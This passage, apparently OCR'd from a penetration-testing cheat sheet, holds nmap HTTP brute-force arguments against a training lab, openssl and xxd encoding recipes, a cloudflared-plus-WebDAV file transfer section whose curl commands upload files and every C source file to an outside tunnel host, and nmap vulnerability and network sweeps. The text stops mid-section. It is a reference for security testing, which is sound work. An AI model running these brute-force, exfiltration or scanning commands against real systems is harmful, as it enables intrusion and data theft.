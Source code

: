 ```
   http-brute.hostname=pentesteracademylab.appspot.com,http-brute.path=/lab/webapp/basicauth,userdb=user.txt,passdb=pass.txt,http-brute.method=POST,brute.firstOnly \
   pentesteracademylab.appspot.com
```
## openssl encode
```
openssl base64 < file
```
## openssl decode (cut & paste the 1 line from above):
```
openssl base64 -d > file-COPY
```
## xxd encode
```
xxd -p < file
```
## xxd decode
```
xxd -p -r > file-COPY
```
## File transfer - using WebDAV
```
cloudflared tunnel --url localhost:8080 &
```
```
# [...]
# +--------------------------------------------------------------------------------------------+
# |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
# |  https://example-foo-bar-lights.trycloudflare.com                                          |
# +--------------------------------------------------------------------------------------------+
# [...]
wsgidav --port=8080 --root=.  --auth=anonymous
# Upload a file to your workstation
curl -T file.dat https://example-foo-bar-lights.trycloudflare.com
# Create a directory remotely
curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources
# Create a directory hirachy remotely
find . -type d | xargs -I{} curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources/{}
# Upload all *.c files (in parallel):
find . -name '*.c' | xargs -P10 -I{} curl -T{} https://example-foo-bar-lights.trycloudflare.com/sources/{}
```
## SHODAN quick search
```
IP=ip_address
curl https://internetdb.shodan.io/$IP | jq
```
## FAST vulners scan
```
nmap -vv -A -F -Pn --min-rate 10000 --script vulners.nse --script-timeout=5s $IP
```
```
nmap -r -sn -PR 192.168.0.1/24
```
## ICMP discover computers on the local netowrk
```
NET="192.168.0"
```